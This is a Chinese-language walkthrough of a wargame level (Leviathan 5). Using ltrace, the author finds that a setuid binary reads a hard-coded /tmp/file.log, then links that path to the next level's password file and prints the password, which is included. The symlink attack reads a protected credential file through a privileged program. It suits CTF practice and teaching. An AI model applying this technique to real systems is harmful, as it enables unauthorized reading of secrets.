Tith4cokei

进来一个leviathan5可执行文件，查看权限，有setuid且属于leviathan6，那估计又是让他帮我们“代跑”了。我也不知道这种类型的exploit叫啥，spoofing？

总之先运行：
```
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```
似乎是在访问一个指定的文件名，看看那个文件：
```
leviathan5@leviathan:~$ cat /tmp/file.log
cat: /tmp/file.log: No such file or directory
```
并没有那个文件，难怪报错，`ltrace`看看：
```
leviathan5@leviathan:~$ ltrace ./leviathan5 
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                           = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                     = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```
就一个步骤，就是`fopen`并读那个文件，不知道文件名是不是硬编码的，尝试下加个参数`abc`：
```
leviathan5@leviathan:~$ ltrace ./leviathan5 abc
__libc_start_main(0x80485db, 2, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                           = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                     = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```
无变化，看来不吃参数，`/tmp/file.log`估计是硬编码。

嗯，有之前的经验，我们又知道自己是可以在`/tmp`写东西的，很快想到链接欺骗的办法，那就试试：
```shell
leviathan5@leviathan:~$ cd /tmp
leviathan5@leviathan:/tmp$ ln -s /etc/leviathan_pass/leviathan6 "file.log"
leviathan5@leviathan:/tmp$ ls
ls: cannot open directory '.': Permission denied
leviathan5@leviathan:/tmp$ cd
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```
嗯，直接就到手了，下一题。